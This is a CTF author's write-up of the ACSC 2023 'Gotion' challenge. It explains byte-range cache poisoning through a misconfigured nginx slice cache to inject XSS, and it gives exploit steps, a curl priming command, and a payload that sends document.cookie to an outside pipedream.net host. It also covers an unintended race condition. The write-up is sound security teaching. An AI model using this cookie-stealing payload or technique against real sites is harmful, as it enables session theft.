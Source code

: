 ```yaml
---
title: "ACSC 2023 Gotion Challenge Author Writeup"
date: 2023-03-12T00:00:00+09:00
---
```


I made a Gotion Challenge in [ACSC](https://acsc.asia/) (Asian Cyber Security Challenge) 2023.
Here is the author's writeup.

Challenge Description:

```
Gotion is yet another simple secure note service. You might have seen these kind of applications many times before, but try this one!
```

Challenge Repository: <https://github.com/tyage/acsc2023-gotion>

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">In ACSC 2023, I made a Gotion challenge and promotion video :) Thank you everyone who played! <a href="https://t.co/SN4PXKkKid">pic.twitter.com/SN4PXKkKid</a></p>&mdash; もうダニ by 左京区在中 (@tyage) <a href="https://twitter.com/tyage/status/1629679515529281536?ref_src=twsrc%5Etfw">February 26, 2023</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

# Challenge Details

The challenge has three components: Go web application, nginx and bot.
This is obviously an XSS challenge as the bot has FLAG in the cookie.

The Go app allows users to create simple note pages with only title and body.
The title "Gotion" is a parody of the famous note-taking app Notion and Go.

Users can enter title and body, but they are HTML escaped.
Therefore it is not possible to cause XSS in the notes page.

The key points here are that notes have their own unique URL and Gotion creates static HTML files for each note page like SSG (Static Site Generator).
Users can control the last part of the note URL, but they are only allowed to use restricted characters `[a-zA-Z0-9 ]`.

Looking inside nginx, the config file has a suspicious cache directive.

```nginx
proxy_cache_path /tmp/nginx keys_zone=mycache:10m;
server {
    listen 80;

    location ~ .mp4$ {
        # Smart and Efficient Byte-Range Caching with NGINX
        # https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/
        proxy_cache mycache;
        slice              4096; # Maybe it should be bigger?
        proxy_cache_key    $host$uri$is_args$args$slice_range;
        proxy_set_header   Range $slice_range;
        proxy_http_version 1.1;
        proxy_cache_valid  200 206 1h;
        proxy_pass http://app:3000;
    }

    location / {
        proxy_pass http://app:3000;
    }
}
```

This directive caches an mp4 file, but it is not a normal cache, it is a [byte-range cache](https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/) which allows us to cache part of the content.
When a client requests `Range: bytes=0-1000`, nginx requests the content with a `Range: bytes=0-4095` header to the origin server and caches the response.
If a client requests `Range: bytes=0-1000` again, nginx can quickly make a response with the previous cache containing the first 4096 bytes.

This config file also has an error in the location directive.
The `.` in `location ~ .mp4$` does not mean `.` but any character, because this is RegExp.
This directive was made for the video file `howto.mp4` but the file such as `FOOBARmp4` will unfortunately be cached.

# Solution

The solution is byte range cache poisoning, which causes nginx to return HTML containing XSS payload.

This is possible because nginx concatenates segmented caches.
Consider a situation where nginx has the content cache, but only the first 4096 bytes, and the content is updated after that.
When a client makes a request without a range header, nginx will retrieve the rest of the updated content and concatenate it with the first cache.

In other words, we can concatenate the sliced parts of two different HTMLs!

The steps to exploit this are below.


1. Create a note page whose URL ends with `AAAAAAAAAAAAAAAAAmp4` so that it will be cached.

2. Modify the HTML of the note so that the first 4096 bytes end with `<`.

The first 4096 bytes of HTML will look like this

```html
<!DOCTYPE html>
<html lang="en">

<head>
...
          <textarea name="body" class="form-control" placeholder="note" style="height: 300px;">AAAA...AAAAA<
```

3. Cache the first 4096 bytes with a range header `curl http://.../...AAAAAAAAAAAAAAAAAmp4 -H "Range: bytes=0-4095"`.

4. Update the page so that the second 4096 bytes block starts with `img src=x onerror=[payload here]`.

The second block will look like this

```html
img src=x onerror=location=`//eo7x31ojradre3r.m.pipedream.net/?c=${document.cookie}` x=</textarea>
...
</body>

</html>
```

5. Report the URL `http://.../...AAAAAAAAAAAAAAAAAmp4

6. Wait for the flag and done!

The full solution script is here <https://github.com/tyage/acsc2023-gotion/blob/main/solution/solve.py>.

# Unintended Solution

There is an unintended solution.
I forgot to write an exclusive lock when Go app write a HTML to file.

<https://github.com/tyage/acsc2023-gotion/blob/main/app/main.go#L117>

```go
		f, err := os.OpenFile(noteFilePath, os.O_WRONLY|os.O_TRUNC, 0644)
		if err != nil {
			http.Error(w, "invalid note", http.StatusInternalServerError)
			return
		}

		WriteNote(f, NoteParam{
			Id:    noteId,
			URL:   noteURL,
			Title: title,
			Body:  body,
		})
```

It causes race condition when the app process `WriteNote` at the same time and it was possible to store broken HTML causing XSS.

# Comment

To make a challenge solvable, origin HTTP server must support byte-range request and must *not* return E-Tag header.
Fortunatelly, Go net/http server meets these requirements therefore I chose the Go server.

Not only nginx but also some other HTTP cache servers and CDNs have this kind of implementation, so I think this concept could be exploitable in some real environment.

I think this is the first PoC of byte-range cache poisoning XSS and wish the participants enjoyed the challenge!
